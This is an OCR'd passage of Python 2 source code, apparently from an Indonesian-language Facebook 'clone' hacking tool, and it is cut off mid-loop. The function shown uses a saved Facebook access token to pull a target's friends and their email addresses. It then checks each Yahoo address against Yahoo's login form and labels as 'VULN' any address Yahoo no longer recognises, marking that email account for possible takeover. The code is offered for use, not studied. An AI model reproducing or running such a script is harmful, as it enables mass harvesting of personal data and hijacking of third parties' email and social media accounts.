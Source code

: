 	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
	menu()
		

def clone_dari_teman():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jml = 0
	print 42*"\033[1;96m="
	idt = raw_input("\033[1;96m[+] \033[1;93mMasukan ID teman \033[1;91m: \033[1;97m")
	try:
		jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
		op = json.loads(jok.text)
		print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mNama\033[1;91m :\033[1;97m "+op["name"]
	except KeyError:
		print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan"
		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
		menu()
	jalan('\033[1;96m[✺] \033[1;93mMengambil email \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)
	kimak = json.loads(teman.text)
	jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
	print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
	print 43*"\033[1;96m="
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					print("\033[1;96m[✓] \033[1;92mVULN")
					print("\033[1;96m[➹] \033[1;97mID   \033[1;91m: \033[1;92m"+id)